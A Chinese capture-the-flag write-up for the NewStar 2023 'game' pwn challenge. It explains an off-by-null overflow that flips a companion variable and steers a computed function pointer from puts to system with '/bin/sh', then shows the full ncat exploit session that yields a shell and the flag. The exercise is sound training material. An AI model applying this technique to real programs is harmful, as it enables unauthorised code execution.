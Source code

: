 ```yaml
---
title: newstar2023 week4 - game
date: 2023/10/19 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序，发现 ~~原神~~ 函数末尾运行了`(*(puts + (-(long)cnt - (long)offset)))(bytes);`  
那么只要控制cnt和offset，就可以运行system；控制bytes可以打开shell

cnt在完成委托每次+0x10000，而offset通过输入%hd获得；  
bytes在对肯德基爷爷的话中可以输入；  
现在唯一的问题是：怎样既选择派蒙又选择三月七以满足`if ((flag_paimon != 1) || (flag_march7 != 1)) break;`
的条件？

发现myread函数存在**off-by-null**溢出，动调发现溢出的刚好是选择的伙伴变量，
那么只要先选三月七，然后溢出修改伙伴为派蒙即可

虽然题目中完成4次委托给了system地址，但是libc给了...直接在libc中找偏移，
得出`system - puts`=0x38592

## EXPLOIT

```
> ncat node4.buuoj.cn 29415
请选择你的伙伴1
我永远喜欢三月七!
现在你可以开始探险了1.扣1送原石2.扣2送kfc联名套餐2
你有什么想对肯德基爷爷说的吗?
/bin/sh
1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐3
you are good mihoyo player!
8592
cat flag
flag{removed}
```

Done.
